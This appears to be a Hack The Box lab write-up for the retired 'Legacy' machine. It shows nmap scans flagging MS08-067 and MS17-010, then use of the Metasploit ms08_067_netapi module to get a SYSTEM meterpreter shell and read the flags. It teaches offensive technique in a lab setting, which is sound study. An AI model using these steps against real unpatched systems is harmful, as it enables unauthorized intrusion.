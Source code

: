 ```yaml
---                                                                                           
layout: post                                                                                  
title:  "HTB-Legacy"                                                                            
date:   2020-02-16 02:49:57 +0000                                                             
categories: HTB-Walkthrough                                                                   
---                           
```


![legacy](/assets/img/legacy.png)

Another beginner's box in HTB is Legacy, lets run nmap and see what we're dealing with...

` nmap -sCV -p- 10.10.10.4 |tee -a legacy.txt `

this scan is a bit like `-A`, it runs all the default nse scripts on the host, and looks for
service information.


{% highlight ruby %}
 Starting Nmap 7.70 ( https://nmap.org ) at 2019-11-06 13:01 GMT
Nmap scan report for 10.10.10.4
Host is up (0.12s latency).
Not shown: 65532 filtered ports
PORT     STATE  SERVICE       VERSION
139/tcp  open   netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open   microsoft-ds  Windows XP microsoft-ds
3389/tcp closed ms-wbt-server
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

Host script results:
|_clock-skew: mean: -4h00m00s, deviation: 1h24m50s, median: -5h00m00s
|_nbstat: NetBIOS name: LEGACY, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:b9:3e:e1 (VMware)
| smb-os-discovery: 
|   OS: Windows XP (Windows 2000 LAN Manager)
|   OS CPE: cpe:/o:microsoft:windows_xp::-
|   Computer name: legacy
|   NetBIOS computer name: LEGACY\x00
|   Workgroup: HTB\x00
|_  System time: 2019-11-06T12:05:37+02:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)
{% endhighlight %}

Ok, lets home in on the discovered ports...

{% highlight ruby %}
root@kali:~/HTB/prep/legacy# nmap -p139,445 -sSV 10.10.10.4 --script=vuln
Starting Nmap 7.70 ( https://nmap.org ) at 2019-11-06 13:17 GMT
Nmap scan report for 10.10.10.4
Host is up (0.15s latency).

PORT    STATE SERVICE      VERSION
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Microsoft Windows XP microsoft-ds
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

Host script results:
|_samba-vuln-cve-2012-1182: NT_STATUS_ACCESS_DENIED
| smb-vuln-ms08-067: 
|   VULNERABLE:
|   Microsoft Windows system vulnerable to remote code execution (MS08-067)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2008-4250
|           The Server service in Microsoft Windows 2000 SP4, XP SP2 and SP3, Server 2003 SP1 and SP2,
|           Vista Gold and SP1, Server 2008, and 7 Pre-Beta allows remote attackers to execute arbitrary
|           code via a crafted RPC request that triggers the overflow during path canonicalization.
|           
|     Disclosure date: 2008-10-23
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2008-4250
|_      https://technet.microsoft.com/en-us/library/security/ms08-067.aspx
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: ERROR: Script execution failed (use -d to debug)
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|_      https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/

{% endhighlight %}

Looks like this target is vulnerable to the old smb ms08_067_netapi exploit, and also the infamous ms17-010 EternalBlue exploit.
In this instence we're going to try the older netapi one, we'll keep the devistating EternalBlue for another box...

In the msfconsole we can use the `info` command to ...well...get more info!

{% highlight ruby %}
msf5 exploit(windows/smb/ms08_067_netapi) > info

       Name: MS08-067 Microsoft Server Service Relative Path Stack Corruption
     Module: exploit/windows/smb/ms08_067_netapi
   Platform: Windows
       Arch: 
 Privileged: Yes
    License: Metasploit Framework License (BSD)
       Rank: Great
  Disclosed: 2008-10-28

Provided by:
  hdm <x@hdm.io>
  Brett Moore <brett.moore@insomniasec.com>
  frank2 <frank2@dc949.org>
  jduck <jduck@metasploit.com>

<--snip-->

Basic options:
  Name     Current Setting  Required  Description
  ----     ---------------  --------  -----------
  RHOSTS   10.10.10.4       yes       The target address range or CIDR identifier
  RPORT    445              yes       The SMB service port (TCP)
  SMBPIPE  BROWSER          yes       The pipe name to use (BROWSER, SRVSVC)

Payload information:
  Space: 408
  Avoid: 8 characters

Description:
  This module exploits a parsing flaw in the path canonicalization 
  code of NetAPI32.dll through the Server Service. This module is 
  capable of bypassing NX on some operating systems and service packs. 
  The correct target must be used to prevent the Server Service (along 
  with a dozen others in the same process) from crashing. Windows XP 
  targets seem to handle multiple successful exploitation events, but 
  2003 targets will often crash or hang on subsequent attempts. This 
  is just the first version of this module, full support for NX bypass 
  on 2003, along with other platforms, is still in development.

References:
  https://cvedetails.com/cve/CVE-2008-4250/
  OSVDB (49243)
  https://technet.microsoft.com/en-us/library/security/MS08-067
  http://www.rapid7.com/vulndb/lookup/dcerpc-ms-netapi-netpathcanonicalize-dos


{% endhighlight %}

Use the default payload with this one, no need to use the `set payload` command.
triggering the `exploit` gives us a meterpreter shell.

{% highlight ruby %}
meterpreter > ipconfig

Interface  1
============
Name         : MS TCP Loopback interface
Hardware MAC : 00:00:00:00:00:00
MTU          : 1520
IPv4 Address : 127.0.0.1


Interface 65539
============
Name         : AMD PCNET Family PCI Ethernet Adapter - Packet Scheduler Miniport
Hardware MAC : 00:50:56:b9:3e:e1
MTU          : 1500
IPv4 Address : 10.10.10.4
IPv4 Netmask : 255.255.255.0

meterpreter > sysinfo
Computer        : LEGACY
OS              : Windows XP (Build 2600, Service Pack 3).
Architecture    : x86
System Language : en_US
Domain          : HTB
Logged On Users : 1
Meterpreter     : x86/windows
meterpreter > cat root.txt
# 99xxxxxxxxxxxxxxxxxxxxxxxxx3
{% endhighlight %}

This exploit is impressive, we already have elevated privilages, and can access both the user and Administrator(root) flags.

{% highlight ruby %}
meterpreter > dir
Listing: C:\Documents and Settings\john\desktop
===============================================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100666/rw-rw-rw-  32    fil   2017-03-16 06:19:49 +0000  user.txt

meterpreter > cat user.txt
# exxxxxxxxxxxxxxxxxxxxxxxxxf
{% endhighlight %}


1. scan Target
2. identify vulnerabilities
3. execute exploit to gain access and/or system/root privilages.
4. get flags


###################################
